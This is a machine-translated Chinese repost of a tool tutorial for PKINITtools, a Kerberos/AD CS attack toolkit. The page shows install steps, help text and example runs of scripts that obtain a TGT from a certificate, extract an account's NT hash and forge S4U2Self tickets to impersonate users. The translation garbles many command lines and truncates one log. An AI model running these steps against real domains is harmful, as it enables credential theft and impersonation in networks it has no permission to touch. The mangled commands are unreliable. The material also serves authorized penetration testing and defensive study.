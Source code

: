 # PKINITtools:用于 Kerberos PKINIT 和中继到 AD CS 的工具

> 原文：<https://kalilinuxtutorials.com/pkinittools/>

[![](img/8a92e345545f0e7df833ae3833a1cc45.png)](https://blogger.googleusercontent.com/img/a/AVvXsEh_oWrkQftQSh1QA_EY7MwDBeK5izG53AsiJ4f4KuOGrtGeEsoYZ1gy3PFgNxzA9xL9-ORRv-NO0k_77XqqN2Vvyh8dN2Yox_2srDCyAzPBvwY0ODQb6XBZdFD0AZnw50yik_0BZPNLdKhbM_M8IirprbwUDWMYevpEKLqDwvJR_GwMaPJ9sT6_CAff=s720)

PKINITtools 存储库包含一些使用 PKINIT 和证书的实用程序。
工具是在 minikerberos 和 impacket 上构建的。附带更多上下文的博文:[https://dirkjanm . io/NTLM-relaying-to-ad-certificate-services/](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/)

**安装**

这些工具仅与 Python 3.5+兼容。从 GitHub 克隆存储库，安装依赖项，然后就可以开始了:

git 克隆 https://github.com/dirkjanm/PKINITtools
pip 3 安装 impacket minikerberos

为此，建议使用 virtualenv。

**工具**

**gettgtpkinit.py**

使用 PFX 文件(作为文件或作为 base64 编码的 blob 或用于 cert+key 的 PEM 文件)请求 TGT。这使用了 Kerberos PKINIT，并将 TGT 输出到指定的 ccache 中。它还会打印出 AS-REP 加密密钥，这是 getnthash.py 工具可能需要的。使用示例:

**(PKINITtools)user @ localhost:~/PKINITtools $ python gettgtpkinit . py-h
用法:gettgtpkinit . py[-h][-cert-pfx file][-pfx-pass password][-pfx-BASE64 BASE64][-cert-pem file][-key-PEM file][-DC-IP DC _ IP][-v]
域/用户名 ccache
使用 Kerberos PKINIT 和任一 PEM 请求 TGT –帮助显示此帮助信息并退出
-cert-pfx 文件 pfx 文件
-pfx-pass password PFX 文件密码
-pfx-base64 base64 PFX 文件作为 BASE64 字符串
-cert-pem 文件 pem 格式的证书
-key-pem 文件 PEM 格式的私钥文件
-dc-ip DC_IP DC IP 或主机名用作 KDC
-v， –verbose
(PKINITtools)user @ localhost:~/PKINITtools $ python gettgtpkinit . py testsegment.local/s2019dc\$-cert-pfx ~/impacket-py3/cert . pfx-pfx-pass hoi s 2019 DC . ccache
2021-07-27 21:25:24，299 minikerberos 信息从文件中加载证书和密钥
2021-07-27 27 21:25:24，316 mini**

**getn hash . py**

使用 Kerberos U2U 为您自己提交 TGS 请求。这将包括 PAC，而 PAC 又包含 NT 哈希，您可以使用用于您的特定 TGT 的 AS-REP 密钥对其进行解密。这真的很神奇。这个工具要求在你的`**KRB5CCNAME**` env 变量中有一个来自 PKINIT 的 TGT。用法:

(PKINITtools)**user @ localhost:~/PKINITtools $ python getnthash . py-h
Impacket v 0 . 9 . 23–版权所有 2021 SecureAuth Corporation
用法:getnthash . py[-h]-KEY KEY[-DC-IP Address][-debug]identity
位置参数:
identity domain/username
可选参数:
-h，–help 显示此帮助消息并从 gettgtpkinit.py 退出
-key KEY 作为 REP key 如果允许，使用目标参数
-debug 中指定的域部分(FQDN)打开
(PKINITtools)调试输出 user @ localhost:~/PKINITtools $ export krb 5c name = s 2019 DC . ccache
(PKINITtools)user @ localhost:~/PKINITtools $ python getnthash . py testsegment.local/s2019dc\$-key 5769 dff 44 ebea a5 37 b4e 9 f 7005 f 63063 ffd 7 c 198 b 747 AE 77**

**gets4uticket.py**

使用 Kerberos S4U2Self 请求一个在您已获得证书的主机上有效的服务票证。然后，该票证可用于与原始主机进行交互。这只需要该主机的机器帐户有一个 TGT。这个 TGT 应该在您在`**kerberos_connection_url**`中指定的 ccache 文件中。本例中唯一可接受的`**kerberos_connection_url**`是包含 ccache 文件的文件，例如`**kerberos+ccache://domain.local\\victimhostname\$:victimhostname.ccache@kdchostname.domain.local**`。SPN 应该是您正在模拟的主机上的一个服务名，您不能将它用于委托攻击(因为它没有实现 S4U2Proxy，所以已经有很多工具可以实现它)。用法:

**(PKINITtools)user @ localhost:~/PKINITtools $ python Gets 4 uticket . py-h**
用法:Gets 4 uticket . py[-h][-v]kerberos _ connection _ URL SPN target user ccache
获取一个模拟给定用户的 S4U2self 票证
位置参数:
kerberos_connection_url
以下格式的 Kerberos 目标字符串 Kerberos+ccache://domain \ user:file . ccache @。重要提示:必须使用服务器的主机名，而不是 IP！！！targetuser
ccache ccache 文件将 TGT 票证存储在
中可选参数:
-h，–help 显示此帮助消息并退出
-v，–verbose
(PKINITtools)user @ localhost:~/PKINITtools $ python gets 4 uticket . py Kerberos+ccache://test segment . local \ s 2019 DC \ $:s 2019 DC . ccache @ s 2016 DC . test segment . local CIFS/s 2019 DC . test segment . local @ local
2021-07-28 10:09:13696 minikerberos 信息完成！

[**Download**](https://github.com/dirkjanm/PKINITtools)